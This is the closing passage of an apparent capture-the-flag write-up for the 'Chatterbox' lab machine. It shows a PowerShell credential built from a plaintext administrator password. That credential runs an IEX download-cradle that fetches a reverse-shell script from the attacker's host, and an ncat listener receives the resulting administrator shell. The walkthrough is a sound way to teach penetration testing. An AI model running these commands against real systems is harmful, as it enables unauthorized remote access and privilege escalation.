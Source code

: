 We'll create a credential object for this purpose.
```
PS C:\tmp> $password = convertto-securestring -AsPlainText -Force -String "Welcome1!"
PS C:\tmp> $credential = new-object -typename System.Management.Automation.PSCredential -argumentlist "chatterbox\administrator",$password;
PS C:\tmp> $credential

UserName                                                               Password
--------                                                               --------
chatterbox\administrator                           System.Security.SecureString
```

Now, we can pass this credential to `Start-Process` and Invoke a powershell script from our machine to get reverse shell as `administrator`.
```
PS C:\tmp> Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.17/Invoke-PowerShellTcp.ps1')" -Credential $credential
```

And we got reverse shell as `Administrator`.
```
sudo rlwrap ncat -lnvp 9001

Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.74.
Ncat: Connection from 10.10.10.74:49163.
Windows PowerShell running as user Administrator on CHATTERBOX
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\tmp>whoami
chatterbox\administrator
PS C:\tmp> hostname
Chatterbox
```
Thank you for taking you're time for reading this blog!.